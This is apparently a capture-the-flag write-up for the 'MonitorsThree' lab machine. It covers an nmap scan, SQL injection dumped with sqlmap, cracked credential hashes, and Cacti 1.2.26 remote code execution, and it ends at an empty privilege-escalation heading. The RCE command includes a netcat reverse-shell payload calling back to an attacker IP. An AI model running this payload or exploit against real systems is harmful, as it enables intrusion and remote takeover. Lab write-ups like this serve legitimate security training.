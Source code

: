 ```yaml
---
layout: post
title: "MonitorsThree"
date: 2024-10-04 10:04:00 +0000
categories: Writeup
---
```


MonitorsThree Writeup by <span style="color:yellow">Maniaa</span>.

# Scan

```text
Nmap scan report for 10.10.11.30
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.67 seconds
```

&nbsp;

# SQL Injection

There is SQL injection on the forgot password page here:

![image](https://github.com/user-attachments/assets/a4fae5cc-f532-49bb-8228-d0d3068cd8f1)


Verified with the input '.

It might be blind, which would be somewhat difficult.

I captured the request sent via burpsuite and put it into a txt file, then used sqlmap to dump the contents of the database:

![image](https://github.com/user-attachments/assets/406a8e21-219c-4911-a3a6-319dfd25b8ea)


This allowed me to acquire 4 hashes:

```
sqlmap -r post.txt --dump
```

```
dthompson@monitorsthree.htb:633b683cc128fe244b00f176c8a950f5
janderson@monitorsthree.htb:1e68b6eb86b45f6d92f8f292428f77ac
mwatson@monitorsthree.htb:c585d01f2eb3e6e1073e92023088a3dd
admin@monitorsthree.htb:31a181c8372e3afc59dab863430610e8:greencacti2001
```

I then attempted to crack the hashes via hashcat, however only one was successful:

![image](https://github.com/user-attachments/assets/cd1525d1-e676-4067-b633-1e9963aba433)

We now have the credentials for admin@monitorsthree.htb.

&nbsp;

# Cacti

I found a cacti subdomain:

![image](https://github.com/user-attachments/assets/027392ce-169d-4c77-88b8-8cf7f41c7102)

Add this to /etc/hosts.

We now have access to cacti with the admin credentials:

![image](https://github.com/user-attachments/assets/380380ca-0ca6-44a3-8da8-23b43181b2a3)


Cacti 1.2.26 suffers from rce via import template.

https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26

```
my-venv/bin/python3 CVE-2024-25641.py --user admin --pass greencacti2001 --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/f" http://cacti.monitorsthree.htb/cacti/
```

![image](https://github.com/user-attachments/assets/373304ee-4591-4022-ac3d-dce61361783d)

&nbsp;

# Privilege Escalation
